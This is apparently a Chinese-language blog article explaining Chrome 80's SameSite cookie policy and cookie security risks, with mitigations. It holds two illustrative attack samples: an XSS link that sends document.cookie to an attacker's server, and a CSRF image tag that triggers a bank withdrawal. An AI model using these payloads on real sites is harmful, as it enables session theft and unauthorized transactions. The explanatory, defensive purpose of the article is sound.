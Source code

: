 # Google Cookie策略对Web开发的影响

Chrome将从2月的Chrome 80开始执行新的Cookie策略，对未设置“SameSite”的Cookie默认其值为Lax，即三方网站如果使用了该资源，在请求中是不会带上相关的Cookie的；对SameSite设置为None的Cookie，要求必须同时设置Secure，否则拒绝此Cookie。


### SameSite
这是一个用来决定Cookie的可用网站范围的属性。它有三个值：

1. Strict: 仅限于同站请求
1. Lax: 同站请求，或者跨站的GET的会导致页面URL发生变化的导航行为，包括链接、GET的Form提交。比如在 http://www.def.com 网站的页面中嵌入了一个链接 http://www.abc.com ，那么在用户点击此链接时发起的初始请求，会带上http://www.abc.com中设置为Lax的Cookie。而那些设置为Strict的Cookie是不会带上的。这种跨站链接还包括像嵌入到邮件中的链接。
2. None: 没有限制，同站及跨站请求中都会带上，与传统的方式一样。

**在新的Chrome的Privacy Sandbox的策略中：**

1. 如果Cookie未设置SameSite，那把其值默认为Lax。
1. 如果Cookie设置SameSite=None，还需要同时设置Secure，否则此Cookie会被浏览器拒绝。设为Secure之后，其它三方网站对我方网站资源的引用必须使用HTTPS，否则还是不会带上此Cookie，这也要求我方网站必须支持HTTPS。

## 解释

假设有http://www.abc.com和http://www.def.com两个网站，通过之前的某些页面逻辑，浏览器中已经存储了如下Cookie:
```
Set-Cookie: abc1=ok; Domain=abc.com
Set-Cookie: abc2=ok; Domain=www.abc.com
Set-Cookie: abc3=ok; Domain=xyz.abc.com
Set-Cookie: abc4=ok; Domain=abc.com; SameSite=Strict
Set-Cookie: abc5=ok; Domain=abc.com; SameSite=Lax
Set-Cookie: abc6=ok; Domain=abc.com; SameSite=None
Set-Cookie: abc7=ok; Domain=abc.com; SameSite=None; Secure
Set-Cookie: abc8=ok; Domain=xyz.abc.com; SameSite=None
Set-Cookie: abc9=ok; Domain=xyz.abc.com; SameSite=None; Secure

Set-Cookie: def1=ok; Domain=def.com
```

假设当前在http://www.def.com这个网站中：
![](https://pic3.zhimg.com/80/v2-4a00716c99ba7f39a1a4a9fdfc75eee2_720w.jpg)

## 谷歌进行第三方Cookie规则更新的意义

Cookie的不安全主要在三个方面：

### 1. 中间人效应

Cookie的传输将会`经过多个路由器`，它们都将获得Cookie的内容。而Cookie的内容往往标识了登录状态。解决方法便是使用更安全的HTTPS协议进行传输。

### 2. XSS跨站脚本（Cross-Site Scripting）

使用跨站点脚本技术可以窃取cookie。当`网站允许使用javascript操作cookie`的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。例子：

``` html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到http://abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

### 3. CSRF跨站请求伪造（Cross-Site Request Forgery）

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如:

``` html
<img src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" >
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

这是利用网站漏洞和`用户未登出`第三方网站进行的攻击。在SameSite问世之前，我们可用通过HTTP头中的Referer字段进行校验。

### 补充：广告商Cookie应用案例

通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么**第三方cookie就是cookie的域和地址栏中的域不匹配**，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。

更多：https://zhuanlan.zhihu.com/p/31852168

## 参考

* https://zhuanlan.zhihu.com/p/103420328
* https://zhuanlan.zhihu.com/p/31852168
* https://maxket.com/chrome-samesite-none-update/